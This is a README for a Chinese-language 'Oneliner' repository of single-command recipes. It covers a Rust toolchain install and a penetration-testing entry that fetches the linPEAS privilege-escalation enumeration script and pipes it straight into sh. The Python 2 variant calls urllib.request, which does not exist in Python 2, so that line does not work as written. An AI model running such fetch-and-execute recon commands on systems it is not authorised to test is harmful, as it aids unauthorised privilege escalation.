 # Oneliner
---
这是一个 包含了 只需要一行 instruction sequence 即可完成目标的 仓库.

将每一条记录称为 liner

这个仓库 涵盖了很多方面 如下载 安装 POC验证 EXP利用 等.

仓库遵循 content first 原则.

格式要求
````
## category <!-- 分类, 也是liner的 头部 --> <!-- 由管理员 识别并合并 -->
### title
> ***<date YY-mm-dd>: <author|mail>***
[> **<description>**] <!-- 描述信息 -->
```lang <!-- 该部分可有多个 -->
instruction
```
--- <!-- 当前liner的 分割线 也是尾部 -->
````
## 目录
* [Rust](#rust)
  * [Linux安装Rust环境](#linux安装rust环境)
* [渗透测试](#渗透测试)
  * [Linpeas.sh枚举提权信息](#linpeassh枚举提权信息)

<!-- 列表头 -->
## Rust
### Linux安装Rust环境
> ***2024-6-25: fb0sh***
```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```
> **(中国区环境)**
```bash
export RUSTUP_DIST_SERVER="https://rsproxy.cn";export RUSTUP_UPDATE_ROOT="https://rsproxy.cn/rustup";curl --proto '=https' --tlsv1.2 -sSf https://rsproxy.cn/rustup-init.sh | sh
```
---


## 渗透测试
### Linpeas.sh枚举提权信息
> ***2024-6-25: fb0sh***
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
> **python2**
```python2
python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```
> **python3**
```python3
python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```
--- 

<!-- 列表尾 -->
